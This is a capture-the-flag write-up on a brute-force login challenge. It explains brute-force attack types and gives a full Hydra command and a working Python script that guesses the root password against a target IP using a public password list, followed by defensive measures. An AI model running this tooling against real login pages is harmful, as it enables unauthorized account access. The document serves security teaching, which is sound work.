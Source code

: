 # 💪 Bruteforce

## 📖 Definition

A **brute-force attack** is a method used to gain unauthorized access to a system, network, or encrypted data by systematically trying all possible combinations of credentials or keys until the correct one is found. This type of attack relies on sheer computational power and persistence, making it one of the simplest, yet most resource-intensive and time-consuming, attack methods.

**Key Characteristics of a Brute-Force Attack:**

1. **Trial-and-Error Approach:** Attackers use software to automatically generate and test millions or billions of potential passwords, usernames, or encryption keys, often using algorithms that speed up this trial-and-error process.

2. **No Subtlety or Sophistication:** Unlike other types of cyber attacks that may rely on exploiting specific vulnerabilities, brute-force attacks don't require intricate knowledge of the target system. The approach is purely a numbers game: try everything until something works.

3. **Dependent on Computational Power:** The speed and feasibility of a brute-force attack are heavily influenced by the processing power available to the attacker. More powerful systems (or botnets of compromised machines working together) can test combinations faster.

4. **Types of Brute-Force Attacks:**

	- **Simple Brute-Force Attack:** Every possible combination of characters is tested, regardless of the target's characteristics.
	- **Dictionary Attack:** Attackers use a predefined list of likely passwords, often based on commonly used passwords or information known about the target.
	- **Hybrid Attack:** Combines a dictionary attack with variations on each entry, such as adding numbers or symbols to commonly used words.

## 🔍 Discovery

On the **Signin** page, we try several `username:password` combinations after realizing that the `username` and `password` are directly filled in the URL in this format: `username=<username>&password=<password>`.
So, at this point, we can code a little Python script to test all the possibilities with the `root` username. Why with this username? Because we tested it first but, in fact, whatever it is, you'll get the flag if the password is good. For the dictionary, we use [this one](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt) from GitHub.

## 🏁 Flag

**1. The manual way:**

1. Take the passwords list on [this site](https://datanews.levif.be/actualite/le-top-25-des-mots-de-passe-les-plus-courants-et-les-plus-faibles/)
2. Go on the **Signin** page
3. In the username field, type whatever you want
4. In the password field, test all the passwords in the list

**2. Using Hydra:**

1. Download and store the dictionary by running:

```bash
curl -o dictionary https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
```

2. Find the password by running:

```bash
hydra -l root -P dictionary -F -V "<ip>" http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'
```

## 💡 Solutions

We provide two solutions: a Python and a Bash script.

```Python
import requests, sys, subprocess

password_list_url = "https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt"
username = "root"

def get_password_list(url):
	response = requests.get(url)
	return response.text.splitlines()

def run_curl_command(ip, password):
	curl_command = f'curl -s "http://{ip}/index.php?page=signin&username={username}&password={password}&Login=Login#"'
	grep_command = "grep flag | awk -F': | <' '{print \"\\nThe flag is: \"$2}'"
	
	full_command = f"{curl_command} | {grep_command}"
	
	try:
		result = subprocess.check_output(full_command, shell=True, stderr=subprocess.PIPE)
		return result.decode().strip()
	except subprocess.CalledProcessError:
		return None

def bruteforce(ip):
	try:
		response = requests.get(f"http://{ip}", timeout=3)
		response.raise_for_status()
	except requests.exceptions.RequestException as e:
		print("Connection failed. Bad IP or network issue!")
		return False

	password_list = get_password_list(password_list_url)
	for password in password_list:
		password = password.strip()
		
		flag = run_curl_command(ip, password)
		
		if flag:
			print(f"Success! Username: {username} Password: {password}")
			print(flag)
			return True
	
	print("Password not found in the list.")
	return False

def main():
	if len(sys.argv) != 2:
		print("Usage: python script.py <ip>")
		sys.exit(1)
	bruteforce(sys.argv[1])

if __name__ == "__main__":
	main()
```

It first checks if the provided IP address is reachable by sending a `GET` request. It then downloads a list of common passwords from a specified URL and iterates through each password, attempting to log in with the username `root`. For each password, it constructs a `curl` command to attempt a login on the target site, and pipes the result to `grep` to check if the word "flag" appears in the response, indicating a successful login. If the word "flag" is found, the script prints the valid username, password, and the extracted flag, then stops. If no valid password is found after testing all options, it prints a failure message.

## 🔧 Patch

Many defensive measures can be taken, but here are the main ones:

- **Password Complexity:** Requiring complex, long passwords makes brute-forcing more time-consuming.
- **Account Lockouts:** Locking an account after several failed attempts can thwart brute-force efforts.
- **Multi-Factor Authentication (MFA):** Adding an additional layer of security (e.g., a verification code sent to the user) can stop a brute-force attack even if a password is successfully guessed.
- **Rate Limiting and Captchas:** These limit the number of attempts an attacker can make in a given timeframe, slowing down or deterring brute-force attempts.

To better understand the importance to have a stong password, here is a chart to estimate the time it takes a hacker to brute force your password in 2024:

![](https://images.squarespace-cdn.com/content/5ffe234606e5ec7bfc57a7a3/1719499399309-7FRIR5QNH5P4VHC1AGGP/Hive+Systems+Password+Table+-+2024+Rectangular.png?format=1500w&content-type=image%2Fpng)
